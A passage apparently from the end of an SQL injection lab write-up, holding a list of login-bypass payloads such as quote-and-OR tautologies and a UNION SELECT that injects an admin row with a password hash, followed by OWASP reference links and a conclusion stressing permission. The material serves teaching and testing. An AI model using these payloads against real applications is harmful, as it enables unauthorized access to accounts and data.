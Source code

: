 ```
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

#### References :

* SQL Injection ( OWASP )

👉 https://www.owasp.org/index.php/SQL_Injection

* Blind SQL Injection

👉 https://www.owasp.org/index.php/Blind_SQL_Injection

* Testing for SQL Injection (OTG-INPVAL-005)

👉 https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005)

* SQL Injection Bypassing WAF

👉 https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF

* Reviewing Code for SQL Injection

👉 https://www.owasp.org/index.php/Reviewing_Code_for_SQL_Injection

* PL/SQL:SQL Injection

👉 https://www.owasp.org/index.php/PL/SQL:SQL_Injection

* Testing for NoSQL injection

👉 https://www.owasp.org/index.php/Testing_for_NoSQL_injection

* SQL Injection Injection Prevention Cheat Sheet 

👉 https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html

* SQL Injection Query Parameterization Cheat Sheet 

👉 https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html



### Conclusion

This lab provides hands-on experience with both manual and automated SQL injection techniques, focusing on vulnerability discovery and data extraction. Always ensure ethical considerations are taken into account and permission is granted when testing applications.

